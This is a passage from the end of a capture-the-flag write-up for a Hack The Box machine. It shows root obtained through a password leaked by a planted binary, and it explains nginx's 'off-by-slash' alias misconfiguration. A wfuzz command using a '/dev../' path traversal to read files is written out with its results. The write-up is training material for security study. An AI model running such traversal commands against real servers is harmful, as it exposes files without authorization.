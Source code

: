 Let's see what goes before and after that line.


{% include image.html image_alt="cbfa7dec.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/cbfa7dec.png" %}


Hmm. What do we have here? Could that be `root`'s password? Alas, it's not. But, what about the weird `/sbin/uinitrd`? It's certainly not your standard command too. Let's try to run that.


{% include image.html image_alt="49e42dc8.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/49e42dc8.png" %}


Could this finally be `root`'s password. There's only one way to find out.


{% include image.html image_alt="04bb6fd6.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/04bb6fd6.png" %}


Perfect. Time to claim the prize.


{% include image.html image_alt="cd286213.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/cd286213.png" %}


:dancer:

## Afterthought

Recall the message "dev site has been moved to his own server" when navigating to `/dev`? You don't see the `dev` vhost or subdomain right? It turns out to be a subtle hint at nginx's "off-by-slash" misconfiguration; the `alias` directive defines a replacement for `/dev`.


{% include image.html image_alt="3232ce4f.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/3232ce4f.png" %}


It's almost trivial to exploit it to read files.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 https://www.nestedflanders.htb/dev../FUZZ/index.html
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: https://www.nestedflanders.htb/dev../FUZZ/index.html
Total requests: 4593

==================================================================
ID      Response   Lines      Word         Chars          Payload    
==================================================================

001348:  C=200      1 L        9 W           42 Ch        "dev"
002018:  C=200    368 L      933 W        10701 Ch        "html"

Total time: 460.2616
Processed Requests: 4593
Filtered Requests: 4591
Requests/sec.: 9.979106
```
